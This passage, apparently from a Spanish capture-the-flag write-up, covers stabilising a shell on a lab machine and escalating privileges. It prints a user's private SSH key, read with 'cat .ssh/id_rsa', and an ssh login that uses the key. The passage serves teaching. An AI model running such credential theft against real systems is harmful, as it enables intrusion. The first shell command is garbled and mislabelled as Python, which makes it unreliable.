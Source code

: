 Una vez recibida la shell, deberemos hacerle un **tratamiento** para que nos permita poder hacer *Ctrl+C*, borrado de los comandos, movernos con las flechas... Los  comandos que ingresaremos serán:

```python
import /dev/null -c bash
*Ctrl+Z*
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

También deberemos **ajustar el número de filas y de columnas** de esta *shell*. Con el comando ```stty size``` podemos consultar nuestras filas y columnas y con el comando ```stty rows <rows> cols <cols>``` podemos ajustar estos campos.

Ahora vamos a reconocer el sistema como este usuario a ver si como ***dan_smith*** podemos escalar a ***root***.

## Consiguiendo shell como root  

### Reconocimiento del sistema  

***dan_smith*** tiene asignada una **clave privada id_rsa**. La podemos utilizar para conectarnos por **ssh** sin proveer la contraseña de de este usuario. ```chmod 600 id_rsa; ssh dan_smith@10.10.11.172 -i id_rsa```

```
dan_smith@shared:~$ cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
```